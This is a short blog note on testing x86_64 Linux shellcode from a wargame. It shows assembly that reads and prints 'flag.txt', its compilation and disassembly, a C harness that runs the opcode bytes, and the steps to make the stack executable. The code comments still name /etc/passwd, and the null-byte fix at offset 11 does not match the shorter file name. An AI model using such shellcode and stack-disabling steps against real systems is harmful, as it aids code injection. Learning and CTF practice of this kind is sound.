 +++
title = "Testing shellcodes"
author = "Victor Dorneanu"
date = "2016-08-23"
tags = ["c", "asm", "ctf", "wargames"]
category = "notes"
+++

While playing some [wargames](http://blog.dornea.nu/tag/wargames/) where I had to read a file called **flag.txt** using C code, one possible solution (unfortunately not the right one) was to use shellcodes to read the file and dump its content. Here are my notes for future use.

~~~.asm
BITS 64
; Author Mr.Un1k0d3r - RingZer0 Team
; Read /etc/passwd Linux x86_64 Shellcode
; Shellcode size 82 bytes
global _start
 
section .text
 
_start:
    jmp _push_filename
   
_readfile:
; syscall open file
    pop rdi ; pop path value
    ; NULL byte fix
    xor byte [rdi + 11], 0x41
       
    xor rax, rax
    add al, 2
    xor rsi, rsi ; set O_RDONLY flag
    syscall
       
; syscall read file
    sub sp, 0xfff
    lea rsi, [rsp]
    mov rdi, rax
    xor rdx, rdx
    mov dx, 0xfff; size to read
    xor rax, rax
    syscall
   
; syscall write to stdout
    xor rdi, rdi
    add dil, 1 ; set stdout fd = 1
    mov rdx, rax
    xor rax, rax
    add al, 1
    syscall
   
; syscall exit
    xor rax, rax
    add al, 60
    syscall
   
_push_filename:
    call _readfile
    path: db "flag.txt"
~~~


## Shellcode compilation


Compile using **nasm**:

~~~.shell
$ nasm -f elf64 shellcode.asm -o shellcode.o
~~~

## Disassemble

Now you can disassemble the object file using **objdump**:

~~~.shell
shellcode.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <_start>:
   0:   eb 3f                   jmp    41 <_push_filename>

0000000000000002 <_readfile>:
   2:   5f                      pop    %rdi
   3:   80 77 0b 41             xorb   $0x41,0xb(%rdi)
   7:   48 31 c0                xor    %rax,%rax
   a:   04 02                   add    $0x2,%al
   c:   48 31 f6                xor    %rsi,%rsi
   f:   0f 05                   syscall 
  11:   66 81 ec ff 0f          sub    $0xfff,%sp
  16:   48 8d 34 24             lea    (%rsp),%rsi
  1a:   48 89 c7                mov    %rax,%rdi
  1d:   48 31 d2                xor    %rdx,%rdx
  20:   66 ba ff 0f             mov    $0xfff,%dx
  24:   48 31 c0                xor    %rax,%rax
  27:   0f 05                   syscall 
  29:   48 31 ff                xor    %rdi,%rdi
  2c:   40 80 c7 01             add    $0x1,%dil
  30:   48 89 c2                mov    %rax,%rdx
  33:   48 31 c0                xor    %rax,%rax
  36:   04 01                   add    $0x1,%al
  38:   0f 05                   syscall 
  3a:   48 31 c0                xor    %rax,%rax
  3d:   04 3c                   add    $0x3c,%al
  3f:   0f 05                   syscall 

0000000000000041 <_push_filename>:
  41:   e8 bc ff ff ff          callq  2 <_readfile>

0000000000000046 <path>:
  46:   66 6c                   data16 insb (%dx),%es:(%rdi)
  48:   61                      (bad)  
  49:   67 2e 74 78             addr32 je,pn c5 <path+0x7f>
  4d:   74                      .byte 0x74

~~~

## Assembler to C

Now convert the opcodes to some C array:

~~~.shell
$ for i in $(objdump -d shellcode.o |grep "^ " |cut -f2); do echo -n '\\x'$i; done;echo
\xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x66\x6c\x61\x67\x2e\x74\x78\x74
~~~

Now use this code:

~~~.c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/types.h>
#include <sys/stat.h>

unsigned char code[] = \
"\xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x66\x6c\x61\x67\x2e\x74\x78\x74";

int main(int argc, char **argv) {
    void (*fp) (void);
    fp = (void *)code;
    fp();
}

~~~


## C code compilation

... and compile it.

~~~.shell
$ gcc -O3 -Wall -fstack-protector-all -fPIE bin.c -o bin
bin.c: In function 'main':
bin.c:20:1: warning: control reaches end of non-void function [-Wreturn-type]
 }
~~~

## Make stack executable

The binary will segfault if executed. That's because the stack isn't executable:

~~~.shell
$ readelf -l bin | grep -C 2 GNU_STACK

  GNU_EH_FRAME   0x00000000000005e4 0x00000000004005e4 0x00000000004005e4
                 0x0000000000000034 0x0000000000000034  R      4
  GNU_STACK      0x0000000000000000 0x0000000000000000 0x0000000000000000
                 0x0000000000000000 0x0000000000000000  RW     10
~~~

Let's make the stack executable:

~~~.shell
$ /usr/sbin/execstack -s bin
~~~

And finally run the executable:

~~~.shell
$ cat flag.txt
bla
$ ./bin
bla
~~~
